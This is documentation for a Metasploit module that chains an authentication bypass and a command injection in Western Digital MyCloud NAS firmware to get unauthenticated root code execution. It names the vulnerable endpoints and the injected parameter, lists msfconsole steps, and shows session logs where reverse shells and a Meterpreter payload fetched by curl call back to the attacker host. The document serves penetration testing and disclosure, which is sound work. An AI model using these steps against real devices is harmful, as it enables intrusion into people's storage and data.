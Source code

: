## Vulnerable Application
This module exploits authentication bypass (CVE-2018-17153) and command injection (CVE-2016-10108) vulnerabilities in
Western Digital MyCloud before 2.30.196 in order to achieve unauthenticated remote code execution as the root user.

The module first performs a check to see if the target is WD MyCloud.
If so, it attempts to trigger an authentication bypass (CVE-2018-17153) via a crafted GET request to /cgi-bin/network_mgr.cgi.
If the server responds as expected (with a 404 response), the module assesses the vulnerability status by attempting to exploit
a command injection vulnerability (CVE-2016-10108) in order to print a random string via the echo command.
This is done via a crafted POST request to /web/google_analytics.php where the command is injected into the `arg` POST parameter.

If the server is vulnerable, the same command injection vector is leveraged to execute the payload.

This module has been successfully tested against Western Digital MyCloud version 2.30.183.

Note: based on the available disclosures, it seems that the command injection vector (CVE-2016-10108) might be exploitable
without the authentication bypass (CVE-2018-17153) on versions before 2.21.126.
The obtained results on 2.30.183 imply that the patch for CVE-2016-10108 did not actually remove
the command injection vector, but only prevented unauthenticated access to it.
However, since older versions will also be vulnerable to CVE-2018-17153, this module always chains exploits for both issues.

- CVE-2016-10108 disclosure and PoC:
https://web.archive.org/web/20170315123948/https://www.stevencampbell.info/2016/12/command-injection-in-western-digital-mycloud-nas/

- CVE-2018-17153 disclosure and Poc:
https://www.securify.nl/advisory/authentication-bypass-vulnerability-in-western-digital-my-cloud-allows-escalation-to-admin-privileges/


## Installation Information
Western Digital no longer seems to offer older firmware versions for download to non-customers.
[This community post](https://community.wd.com/t/wd-my-cloud-v3-x-v4-x-and-v2-x-firmware-versions-download-links/148533)
contains download links to older firmware versions as well as to the source code, but only the links to the source code still work.

## Verification Steps
1. Start msfconsole
2. Do: `use exploit/linux/http/wd_mycloud_unauthenticated_cmd_injection`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `exploit`

## Options
### TARGETURI
The base path to WD MyCloud. The default value is `/`.

## Targets
```
Id  Name
--  ----
0   Unix In-Memory
1   Linux Dropper
```

## Scenarios
### Western Digital MyCloud 2.30.183 - Unix In-Memory
```
msf exploit(linux/http/wd_mycloud_unauthenticated_cmd_injection) > options 

Module options (exploit/linux/http/wd_mycloud_unauthenticated_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.45      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to WD MyCloud
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  10.10.10.18      yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.10.18      yes       The listen address (an interface may be specified)
   LPORT  6000             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix In-Memory



View the full module info with the info, or info -d command.

msf exploit(linux/http/wd_mycloud_unauthenticated_cmd_injection) > run

[*] Started reverse TCP handler on 10.10.10.18:6000 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] 10.10.10.45:443 - The target is WD MyCloud. Checking vulnerability status...
[*] 10.10.10.45:443 - Attempting to execute echo tLD1sR3mLQXV1AYFuHV46x5...
[+] The target is vulnerable. The target executed the echo command.
[*] 10.10.10.45:443 - Executing the payload. This may take a few seconds...
[*] Command shell session 1 opened (10.10.10.18:6000 -> 10.10.10.45:45402) at 2023-07-26 13:51:06 +0000
id
uid=0(root) gid=0(root) groups=0(root)
head /usr/local/config/config.xml
<config>
	<sw_ver_1>2.30.183</sw_ver_1>
	<sw_ver_2>2.30.183.0116.2018</sw_ver_2>
	<hw_ver>WDMyCloudEX4100</hw_ver>
	<eula>1</eula>
	<language>0</language>
	<registered>0</registered>
	<eula_fw>0</eula_fw>
	<eula_apps>0</eula_apps>
	<analytics>0</analytics>
```
### Western Digital MyCloud 2.30.183 - Linux Dropper
```
msf exploit(linux/http/wd_mycloud_unauthenticated_cmd_injection) > options 

Module options (exploit/linux/http/wd_mycloud_unauthenticated_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.45      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to WD MyCloud
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  10.10.10.18      yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/armle/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.10.18      yes       The listen address (an interface may be specified)
   LPORT  6001             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper



View the full module info with the info, or info -d command.

msf exploit(linux/http/wd_mycloud_unauthenticated_cmd_injection) > run

[*] Started reverse TCP handler on 10.10.10.18:6001 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] 10.10.10.45:443 - The target is WD MyCloud. Checking vulnerability status...
[*] 10.10.10.45:443 - Attempting to execute echo gkmp1ak8jprpqinbvmN84QXaWfgirEt...
[+] The target is vulnerable. The target executed the echo command.
[*] Using URL: http://10.10.10.18:8080/xFQRlaZ5ODY9ZQa
[*] Client 10.10.10.45 (curl/7.42.1) requested /xFQRlaZ5ODY9ZQa
[*] Sending payload to 10.10.10.45 (curl/7.42.1)
[*] Sending stage (934728 bytes) to 10.10.10.45
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Meterpreter session 2 opened (10.10.10.18:6001 -> 10.10.10.45:43738) at 2023-07-26 13:51:59 +0000
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 10.10.10.45
OS           :  (Linux 3.10.39)
Architecture : armv7l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
```
